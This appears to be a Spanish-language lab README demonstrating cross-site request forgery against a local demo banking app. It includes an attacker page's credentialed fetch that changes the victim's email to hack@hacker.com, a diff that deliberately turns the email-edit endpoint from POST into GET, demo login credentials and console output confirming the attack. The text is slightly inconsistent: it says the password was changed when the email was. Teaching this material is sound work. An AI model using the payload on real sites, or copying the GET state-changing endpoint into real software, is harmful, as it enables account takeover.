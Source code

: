 # 03 CSRF

## Instalación

- Hacemos un _npm install_ en el directorio de trabajo que es el 03-CSRF e instalamos todas las dependencias de las 3 apps.

```
npm install
```

- Podemos arrancar las apps con _npm start_, o arrancarlas mejor individualmente para ver el mensaje por la consola de la app de backend cuando se produzca el ataque.

```
npm start

```

- Una vez que arrancamos el frontend y el backend de mybank, podemos logearnos usando:

```

email: user@email.com
password: test

```

- Ya logeado podemos inspeccionar las _dev tools_ para ver que dentro de _Application_ tenemos almecenada nuestra cookie.

- Arrancamos a frontend-chupichuli que se abría en _localhost:1235_ esta no se abrirá automáticamente, en el navegador. Y podemos simular que nos han enviado un correo y hemos pinchado en el enlace y se ha abierto en una nueva pestaña.

- Dentro de la la ruta _frontend-chupilchuli/src/index.html_, tenemos un fetch comentado. Como está ahora mismo sería seguro y no se relaizaría el CSRF.

- Y si entramos en las _dev tools_ en la consola nos aparece lo siguiente:

```
Failed to load resource: the server responded with a status of 405 (Method Not Allowed)
```

- Pero si descomentamos el CSRF con get. 

_frontend-chupilchuli/src/index.html_

```diff
<script>
      // Esto es CSRF con post
      // fetch("/api/security/edit", {
      //   method: "POST",
      //   credentials: "include",
      //   headers: {
      //     "Content-Type": "application/json",
      //   },
      //   body: JSON.stringify({
      //     email: "hack@hacker.com",
      //   }),
      // });
      // Esto es CSRF con get
      fetch("http://localhost:3000/api/security/edit?" +
        new URLSearchParams({
                    email: "hack@hacker.com",
        }), {
        method: "GET",
        credentials: "include",
      })
        .then((response) => response.text())
        .then((text) => console.log(text))
        .catch((error) => console.log(error));
    </script>
```
Y vamos a nuestro backend a _backend-mybank/src/pods/security/security.rest-api.js_ al _endpoint_ de _edit_, y cambiamos el método _post_ por _get_.

_backend-mybank/src/pods/security/security.rest-api.js_


```diff
- .post("/edit", authenticationMiddleware, async (req, res, next) =>
+ .get("/edit", authenticationMiddleware, async (req, res, next) => {
    try {
      const newUserEmail = await userRepository.updateEmail(
        req.userSession?.id,
        req.body.email
      );
      console.log(
        `User ${req.userSession?.id} email changed to ${newUserEmail}`
      );
      res.send("Email changed");
    } catch (error) {
      next(error);
    }
  });

```

- Podemos ver por la console de _backend-mybank_ que se ha producido el ataque y hemos cambiado la contraseña.

```
[type-check:watch] 
[type-check:watch] 
[type-check:watch] 14:48:24 - Found 0 errors. Watching for file changes.
[start:dev       ] Server ready at port 3000
[start:dev       ] User 1 email changed to hack@hacker.com
```

- Y ahora podríamos entrar en he perdido mi contraseña y cambiarla sin ningún problema y hacer en la aplicación de mibank lo que quisiéramos.

